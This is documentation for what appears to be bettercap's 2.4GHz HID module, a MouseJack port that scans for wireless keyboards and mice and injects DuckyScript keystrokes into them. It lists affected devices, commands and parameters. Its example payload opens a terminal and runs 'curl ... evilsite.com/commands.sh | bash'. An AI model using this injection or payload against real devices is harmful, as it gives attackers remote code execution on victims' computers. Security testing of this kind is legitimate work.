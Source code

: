 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

* CrazyRadio PA USB dongle
* SparkFun nRF24LU1+ breakout board
* Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

It is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

* Microsoft Wireless Keyboard 800
* Microsoft Wireless Mouse 1000
* Microsoft Wireless Mobile Mouse 3500
* Microsoft All-In-One Media Keyboard
* Microsoft Sculpt Ergonomic Mouse
* Logitech Wireless Touch Keyboard K400r
* Logitech Marathon M705 Mouse
* Logitech Wave M510 Mouse
* Logitech Wireless Gaming Mouse G700s
* Logitech Wireless M325 Mouse
* Logitech K750 Wireless Keyboard
* Logitech K320 Wireless Keyboard
* Dell KM636 Wireless Mouse and Keyboard
* AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.
#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.
#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.
#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `hid.lna` | `true` | If true, enable the LNA power amplifier for CrazyRadio devices. |
| `hid.hop.period` | `100` | Time in milliseconds to stay on each channel before hopping to the next one. |
| `hid.ping.period` | `100` | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode. |
| `hid.sniff.period` | `500` | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type. |
| `hid.force.type` | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter` | | Defines a regular expression filter for `hid.show`. |
| `hid.show.sort` | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`. |
| `hid.show.limit` | `0` | Defines limit for `hid.show`. | 

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

	GUI SPACE
	DELAY 200
	STRING Terminal
	ENTER
	DELAY 500
	STRING curl -L http://www.evilsite.com/commands.sh | bash
	ENTER

